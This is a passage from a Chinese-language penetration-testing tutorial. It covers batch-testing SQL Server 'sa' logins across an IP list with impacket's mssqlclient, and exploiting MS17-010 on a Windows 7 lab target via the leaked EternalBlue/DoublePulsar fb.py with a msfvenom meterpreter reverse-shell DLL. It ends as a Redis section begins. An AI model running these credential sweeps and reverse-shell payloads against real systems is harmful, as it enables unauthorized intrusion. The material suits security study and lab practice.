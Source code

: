         

4）测试以 sqlserver认证模式，指定待检测密码，遍历验证ip.txt内所有服务器，ip.txt为待检测sqlserver服务器，每行一条，验证成功后执行 command. txt内sql命令

    FOR /F %%i in (ips.txt) do mssqlclient.exe -p 1433 ./sa:password123@%%1i -file ......
    
        

这四种命令补全查看前面的讲解即可，或者查看参考资料

**参考资料：**

    https://github.com/SecureAuthCorp/impacket    --下载
    https://www.puckiestyle.nl/impacket/
    https://github.com/SecureAuthCorp/impacket/issues/613
    
        

* * *

##### 2.2.1.3 MS17010py脚本利用

**前言**

因为有些机器存在漏洞，但是使用MSF的模块利用失败，而使用py脚本则能成功利用

**利用**

在本地用虚拟机搭建了Kail 和 Windows7系统

    windwos7靶机IP：192.168.175.138
    
        

生成木马dll

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.175.138 lport=6666 -f dll > 64.dll
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200918112424445.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
py下载地址：fb.py

    https://github.com/misterch0c/shadowbroker/tree/master/windows
    
        

1)设置ip-
2)Use Eternalblue使用 Eternalblue插件-
3)Use doublepulsa使用 doublepulsar插件-
4)最后执行dll反弹shell-
操作步骤不截图了挺简单的…-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200918114157919.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *

#### 2.2.2 未授权访问漏洞

这类问题覆盖的应用、利用方式较广，因此只举例频次较高的漏洞

**Redis**

Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、 Key-Value数据库
